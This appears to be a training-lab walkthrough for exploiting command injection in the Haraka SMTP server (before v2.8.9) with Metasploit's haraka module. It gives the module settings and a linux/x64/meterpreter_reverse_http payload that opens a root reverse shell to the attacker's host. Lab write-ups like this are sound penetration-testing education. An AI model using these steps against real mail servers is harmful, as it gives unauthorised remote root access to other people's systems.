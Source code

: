 # Exploiting a Vulnerable SMTP Server

+ SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used for the transmission of email.

+ SMTP uses TCP port 25 by default. It can also be configured to run on TCP port 465 and 587.

+ Haraka is an open source high performance SMTP server developed in Node.js.

+ The Haraka SMTP server comes with a plugin for processing attachments. Haraka versions prior to V2.8.9 are vulnerable to command injection.

## Laboratory

- Start the postgresql server by running `service postgresql start`.

- Start the msfconsole and check the database status.

- Create a new workspace and import your nmap scan results. We can name it haraka for this example.

- Set globally the target IP with `setg RHOSTS $TARGET_IP`, do this for the RHOST option as well.

- We can start by using db_nmap to start scanning the target machine. Or you can import them from an external xlm nmap result file.

**Note**: The target machine is the next ip after your ip address. If your ip is x.x.x.2, the target IP will be x.x.x.3.

- We are going to make a quick search for the module `search type:exploit name:haraka` and we should find the module `exploit/linux/smtp/haraka`. For this module we will need to set the right SRVHOST and SRVPORT, the email_from and the email_to test addresses, and the payload we want to execute on the target. We can use the following values in this example:

    + SRVHOST: 0.0.0.0
    + SRVPORT: 9898 (Random port)
    + email_to: root@attackdefense.test (must be accepted by the remote server, in this case root@attackdefense.test is accepted)
    + payload: linux/x64/meterpreter_reverse_http (preferable a non-staged payload)
    + LHOST: eth1 (or your ip address)

**Note**: SRVPORT default value is 8080, but as we need that port number for the http payload, we are going to change it to 9898.

- The payload should execute swiftly and provide a meterpreter session right away with elevated privileges (root).

